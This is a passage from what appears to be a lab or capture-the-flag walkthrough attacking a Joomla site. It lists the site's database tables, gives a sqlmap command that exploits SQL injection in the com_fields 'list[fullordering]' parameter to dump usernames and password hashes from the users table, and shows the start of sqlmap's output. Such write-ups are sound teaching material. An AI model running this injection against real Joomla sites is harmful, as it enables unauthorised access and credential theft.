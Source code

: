 ```
| # __finder_links            |
| # __finder_taxonomy_map     |
| # __finder_taxonomy         |
| # __finder_terms_common     |
| # __finder_terms            |
| # __finder_tokens_aggregate |
| # __finder_tokens           |
| # __finder_types            |
| # __languages               |
| # __menu_types              |
| # __menu                    |
| # __messages_cfg            |
| # __messages                |
| # __modules_menu            |
| # __modules                 |
| # __newsfeeds               |
| # __overrider               |
| # __postinstall_messages    |
| # __redirect_links          |
| # __schemas                 |
| # __session                 |
| # __tags                    |
| # __template_styles         |
| # __ucm_base                |
| # __ucm_content             |
| # __ucm_history             |
| # __update_sites_extensions |
| # __update_sites            |
| # __updates                 |
| # __user_keys               |
| # __user_notes              |
| # __user_profiles           |
| # __user_usergroup_map      |
| # __usergroups              |
| # __users                   |
| # __utf8_conversion         |
| # __viewlevels              |
+----------------------------+
```

# 列举所有# __users的数据
sqlmap -u "http://10.10.211.216/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --dbms mysql --technique E -D joomla -T "# __users" --columns  -C username,password --dump  --batch

```
[*] starting @ 03:42:08 /2021-09-03/

[03:42:08] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (X11; U; Linux i686; en-GB; rv:1.8.1.9) Gecko/20071105 Firefox/2.0.0.9' from file '/usr/share/sqlmap/data/txt/user-agents.txt'
[03:42:08] [INFO] testing connection to the target URL
[03:42:09] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
you have not declared cookie(s), while server wants to set its own ('eaa83fe8b963ab08ce9ab7d4a798de05=fqucgm84oqt...koq73blf67'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
```